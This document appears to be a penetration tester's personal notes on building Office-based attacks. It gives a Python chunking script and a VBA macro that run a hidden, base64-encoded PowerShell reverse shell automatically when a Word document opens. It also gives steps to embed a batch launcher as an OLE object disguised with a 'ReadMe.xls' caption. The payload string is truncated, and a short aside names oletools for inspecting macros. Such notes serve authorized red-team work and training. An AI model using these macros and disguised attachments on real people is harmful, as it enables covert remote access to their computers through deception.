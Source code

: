 #### Office macro reverse shell
[[1._Reverse Shells (WIN)#hta raw]]

Copy everything from: 
"powershell.exe -nop -w hidden -e ....... " into the str variable in split.py:

split.py
```python - kali
str = 

n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

run the python file:

```bash - kali
python split.py
```

Paste to notepad++, shift over 1 tab.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	.......................
    Str = Str + "wB0AGEAcgB0ACgAJABzACkAOwA="
    
    CreateObject("Wscript.Shell").Run Str

End Sub

```

New document in Word.
View > Macros > View Macros

Macro name: MyMacro

Macros in: Document1

![[Pasted image 20220603093224.png]]

Click Create.

Paste in Macro code.  Save.

Tools to help analyze the VBA Macro in the document:
https://github.com/decalage2/oletools/wiki/Install
```bash - kali
sudo -H pip install -U oletools
```

https://github.com/decalage2/oletools/wiki/olevba
```bash - kali
olevba --reveal Shelly.doc
```

#### Office Object Linking and Embedding

First, make a "launch.bat" file.

Paste in your powershell code form above:

```
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4kAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAU.....
vAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA= 
```

Insert > Object > Create from File > launch.bat

Select "Display as icon"
Click "Change Icon"
Chang icon if desired.
Change the Caption: "ReadMe.xls"

Click "OK"
